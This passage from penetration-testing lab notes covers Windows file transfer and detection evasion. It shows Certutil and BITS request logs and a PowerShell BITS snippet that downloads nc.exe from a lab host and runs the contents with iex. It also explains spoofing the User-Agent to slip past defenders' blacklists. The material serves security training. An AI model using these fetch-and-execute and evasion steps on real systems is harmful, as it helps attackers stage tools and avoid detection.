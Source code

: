 <mark style="color:orange;">**Certutil - Server**</mark>

{% code fullWidth="true" %}
```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```
{% endcode %}

<mark style="color:orange;">**BITS - Client**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```
{% endcode %}

<mark style="color:orange;">**BITS - Server**</mark>

{% code fullWidth="true" %}
```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
{% endcode %}

***

## <mark style="color:red;">Evading Detection</mark>

***

<mark style="color:orange;">**Changing User Agent**</mark>

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.

<mark style="color:orange;">**Listing out User Agents**</mark>

{% code title="Evading Detection" overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

```
